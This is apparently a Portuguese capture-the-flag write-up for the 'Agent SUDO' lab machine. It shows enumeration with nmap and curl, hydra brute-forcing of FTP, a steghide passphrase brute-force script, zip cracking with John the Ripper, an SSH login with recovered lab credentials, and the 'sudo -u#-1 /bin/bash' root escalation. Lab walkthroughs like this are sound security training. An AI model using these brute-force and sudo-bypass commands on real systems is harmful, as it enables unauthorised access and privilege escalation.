# _**Agent SUDO CTF**_


## _**Enumeração**_
Primeiro, um scan com <mark>Nmap</mark> para determinar versões e quais portas estão abertas
> ```bash
> nmap -p 0-20000 -A -T5 [ip_address]
> ```


Acessando o endereço da página, temos a seguinte mensagem  



Assumindo que para acessar a verdadeira página, é preciso de uma das letras do alfabeto, buscamos por cada uma através do comando ```cURL``` e uma em específico chama a atenção
> ``` bash
> curl -A “C” -L [ip_address]
> ```


## _**Ganhando acesso**_
O nome identificado é <mark>chris</mark>, e sua senha é fraca  
Vamos realizar um teste de força bruta em _ftp_ e _ssh_ com seu nome. Para isso, utilizamos a ferramenta <mark>hydra</mark>  
> ```bash
> hydra -l chris -P ../wordlists/rockyou.txt -t 4 ftp
> ```


Vamos realizar login via _ftp!_
Listando os arquivos com ```ls```, conseguimos encontrar um arquivo: <mark>To_agentJ.txt</mark>  



Então, extrai-se as imagens encontradas no diretório de chris com ```wget```  
Ao tentar usar <mark>steghide</mark> para acessar a senha contida na imagem extraída (.jpg), é requerido uma senha  
Para isso, vamos utilizar este script em python para tentar realizar um ataque de força bruta contra essa senha  
``` bash
import subprocess

imagem = "imagem.jpg"
wordlist = "rockyou.txt"

with open(wordlist, "r", encoding="latin-1") as f:
	for senha in f:
    	senha = senha.strip()
    	if not senha:
        	continue
    	print(f"[*] Testando senha: {senha}")
    	try:
        	result = subprocess.run(
            	["steghide", "extract", "-sf", imagem, "-p", senha, "-f"],
            	stdout=subprocess.PIPE,
            	stderr=subprocess.PIPE,
            	text=True
        	)
        	# Verifica saída (steghide retorna mensagem no stderr se falhar)
        	if "wrote extracted data" in result.stdout.lower():
            	print(f"\n[V] SENHA ENCONTRADA: {senha}")
            	break
    	except Exception as e:
        	print(f"[!] Erro: {e}")
```

Após nenhum retorno, procuram-se outros meios
Uma ferramenta chamada <mark>binwalk</mark> pode extrair arquivos escondidos de dentro de imagens. Vamos usar o comando abaixo  
> ```bash
> binwalk -e [nome_arquivo]
> ```  
Temos 3 saídas  
* 365  
* 365.zlib  
* 8702.zip   

Primeiro, extraímos o conteúdo _.zip_  
Está bloqueado por senha  
Vamos tentar realizar um brute-force nessa senha com <mark>John the ripper</mark>  



A senha foi descoberta!  
Agora, extraímos o seu conteúdo  
Temos um arquivo: <mark>To_agentR.txt</mark>  



A imagem que eles querem enviar é para algum lugar
Buscando o que significam essas letras, temos <mark>base64</mark>
> ```bash
> echo ‘QXJlYTUx’ | base64 -d
> ```

<mark>Area51</mark> pode significar muitas coisas  
Estamos procurando por uma senha para extrair o conteúdo de <mark>cute-alien.jpg</mark>  
Vamos tentar  



O nome do agente J é: <mark>james</mark>  
E sua senha: <mark>hackerrules</mark>  
Vamos tentar realizar login via SSH na conta de james  



Listando seus arquivos com ```ls```, temos uma imagem _.jpg_ e _userflag.txt_  
O arquivo .txt não está criptografado, garantindo uma flag  
Utilizando o comando ```scp```, extraímos a imagem para nossa máquina local
> ```bash
> scp james@[ip_address]:/home/james/Alien_autospy.jpg
> ```


A imagem é relacionada ao caso Roswell, mais conhecido como <mark>Roswell Alien Autopsy</mark>  

## _**Escalando privilégios**_
Para conseguirmos escalar privilégios a partir da conta de james, vamos verificar o que ele pode executar como sudo através do comando abaixo
> ```bash
> sudo -l
> ```

Temos o seguinte retorno
_**Matching Defaults entries for james on agent-sudo: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin**_  
_**User james may run the following commands on agent-sudo: (ALL, !root) /bin/bash**_  

Parece que james não tem permissão para executar <mark>/bin/bash</mark> como _root_, pois temos um <mark>!root</mark>  
No entanto, isso parece estranho, pois o primeiro _**all**_ significa que nosso usuário pode executar <mark>/bin/bash</mark> como qualquer usuário  
Vamos pesquisar no google por (ALL, !root) vulnerabilities  
Achamos o seguinte caso  



Ao utilizar o comando abaixo, o _**sudo**_ não verifica a existência do ID do usuário especificado e executa com um ID de usuário arbitrário com o privilégio _**sudo**_
> ```bash
> sudo -u#-1 /bin/bash
> ```


Basta então buscar a flag root!


Para o nome do agente R, basta ver quem é o criador da sala (deskel)
